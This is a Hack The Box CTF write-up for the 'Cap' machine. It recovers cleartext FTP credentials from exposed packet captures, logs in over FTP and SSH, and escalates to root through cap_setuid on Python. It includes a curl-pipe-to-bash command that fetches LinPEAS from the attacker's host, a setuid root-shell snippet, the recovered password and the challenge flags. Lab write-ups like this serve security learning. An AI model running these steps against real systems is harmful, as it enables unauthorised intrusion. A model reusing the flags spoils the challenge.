

# Cap - CTF Writeup

## 📌 Overview

- **Platform:** Hack The Box
- **Difficulty:** Easy
- **Objective:** Identify an exposed data capture workflow, recover valid credentials, gain initial access, and escalate privileges to root.

## 🔍 Enumeration

I started with a port scan:

```bash
rustscan -a 10.129.66.141 -- -A 
Open 10.129.66.141:21
Open 10.129.66.141:22
Open 10.129.66.141:80
```

I tested FTP anonymous access:

```bash
ftp 10.129.66.141
Name (10.129.66.141:x): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

I moved to the web service and identified the dashboard:

```bash
<title>Security Dashboard</title>
```

I enumerated available endpoints:

```bash
http://10.129.66.141/data/2
http://10.129.66.141/data/1
http://10.129.66.141/ip # shows the output of ipconfig
http://10.129.66.141/netstat # output of netstat
```

Initially, only IDs `1` and `2` appeared available, and `3` redirected to the main page. After more testing, `3` became accessible. Each ID returned a `.pcap` file, so I downloaded and analyzed multiple captures.

```bash
tcpdump -vvv -r 1.pcap
reading from file 1.pcap, link-type LINUX_SLL (Linux cooked v1), snapshot length 262144
14:18:04.085100 IP (tos 0x0, ttl 63, id 59205, offset 0, flags [DF], proto TCP (6), length 52)
    10.10.15.107.50812 > 10.129.66.141.http: Flags [.], cksum 0x5a81 (correct), seq 1750070302, ack 264109856, win 63, options [nop,nop,TS val 238273854 ecr 262185039], length 0

tcpdump -vvv -r 2.pcap
reading from file 2.pcap, link-type LINUX_SLL (Linux cooked v1), snapshot length 262144

tcpdump -vvv -r 3.pcap
reading from file 3.pcap, link-type LINUX_SLL (Linux cooked v1), snapshot length 262144
14:18:47.235274 IP (tos 0x0, ttl 63, id 23714, offset 0, flags [DF], proto TCP (6), length 52)
    10.10.15.107.48590 > 10.129.66.141.http: Flags [.], cksum 0x1cdf (correct), seq 3788704571, ack 1339636494, win 63, options [nop,nop,TS val 538330364 ecr 262228052], length 0

tcpdump -vvv -r 4.pcap
reading from file 4.pcap, link-type LINUX_SLL (Linux cooked v1), snapshot length 262144
14:25:51.799310 IP (tos 0x0, ttl 63, id 38975, offset 0, flags [DF], proto TCP (6), length 52)
    10.10.15.107.53418 > 10.129.66.141.http: Flags [.], cksum 0x9bf6 (correct), seq 1609035177, ack 1311002513, win 63, options [nop,nop,TS val 614121640 ecr 262652633], length 0
```

Manual review in Wireshark did not immediately show useful data in those captures. I then discovered `id=0`, which contained much more traffic, including FTP authentication in cleartext:

```bash
10:12:54.084642 IP (tos 0x0, ttl 128, id 3620, offset 0, flags [DF], proto TCP (6), length 53)
    192.168.196.1.54411 > 192.168.196.16.ftp: Flags [P.], cksum 0x73da (correct), seq 1:14, ack 21, win 4106, length 13: FTP, length: 13
	USER nathan
10:12:54.084668 IP (tos 0x0, ttl 64, id 29557, offset 0, flags [DF], proto TCP (6), length 40)
    192.168.196.16.ftp > 192.168.196.1.54411: Flags [.], cksum 0x097e (incorrect -> 0x7eed), seq 21, ack 14, win 502, length 0
10:12:54.084772 IP (tos 0x0, ttl 64, id 29558, offset 0, flags [DF], proto TCP (6), length 74)
    192.168.196.16.ftp > 192.168.196.1.54411: Flags [P.], cksum 0x09a0 (incorrect -> 0x37a2), seq 21:55, ack 14, win 502, length 34: FTP, length: 34
	331 Please specify the password.
10:12:54.125843 IP (tos 0x0, ttl 128, id 3621, offset 0, flags [DF], proto TCP (6), length 40)
    192.168.196.1.54411 > 192.168.196.16.ftp: Flags [.], cksum 0x70b7 (correct), seq 14, ack 55, win 4106, length 0
10:12:55.383140 IP (tos 0x0, ttl 128, id 3622, offset 0, flags [DF], proto TCP (6), length 62)
    192.168.196.1.54411 > 192.168.196.16.ftp: Flags [P.], cksum 0x4ae6 (correct), seq 14:36, ack 55, win 4106, length 22: FTP, length: 22
	PASS Buck3tH4TF0RM3!
```

Recovered credentials:

```bash
nathan:Buck3tH4TF0RM3!
```

## 💥 Exploitation

I used the recovered credentials to authenticate over FTP and retrieve the user flag:

```bash
ftp 10.129.66.141
Connected to 10.129.66.141.
220 (vsFTPd 3.0.3)
Name (10.129.66.141:x): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32904|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 May 18 17:08 user.txt
226 Directory send OK.
ftp> get user.txt

cat user.txt 
bdcc2a33699ad7c9bfcafb170edef5db
```

I then verified the same credentials over SSH:

```bash
ssh nathan@10.129.66.141  
nathan@10.129.66.141's password: 
nathan@cap:~$ ls
user.txt
nathan@cap:~$ pwd
/home/nathan
nathan@cap:~$ cd ..
nathan@cap:/home$ ls 
nathan
nathan@cap:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 May 23  2021 .
drwxr-xr-x 20 root   root   4096 Jun  1  2021 ..
drwxr-xr-x  3 nathan nathan 4096 May 27  2021 nathan
```

## 🔓 Privilege Escalation

I started privilege escalation checks with SUID binaries and sudo permissions:

```bash
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount

nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

I also reviewed cron jobs and found nothing immediately exploitable:

```bash
nathan@cap:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

I executed LinPEAS for deeper enumeration:

```bash
# attacker 
cd /usr/share/peass/linpeas
python3 -m http.server 80 

# target 
curl 10.10.15.107:80/linpeas.sh | bash
```

Key finding:

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

This capability allowed privilege escalation via Python:

```bash
nathan@cap:~$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
#
```

Then:

```bash
>>> import os
>>> os.system('id')
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

>>> os.setuid(0)
>>> os.system('id')
uid=0(root) gid=1001(nathan) groups=1001(nathan)
>>> os.system('sh')

id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
cat /root/root.txt
ca1b920d7a289fd2ef09c949bcbe5fe0
```

## Attack Flow



## 🧠 Lessons Learned

- Exposed packet capture endpoints can leak credentials when access control is weak.
- Reused credentials across services (FTP/SSH) can quickly expand foothold options.
- Linux capabilities such as `cap_setuid` on Python binaries can provide direct privilege escalation paths.

## 🧩 Tools Used

- RustScan
- FTP client
- Browser
- tcpdump
- Wireshark
- SSH
- LinPEAS
- Python 3

## ⚠️ Notes

- The critical weakness was access to historical packet captures through predictable IDs.
- The decisive escalation vector was `cap_setuid` on `/usr/bin/python3.8`.
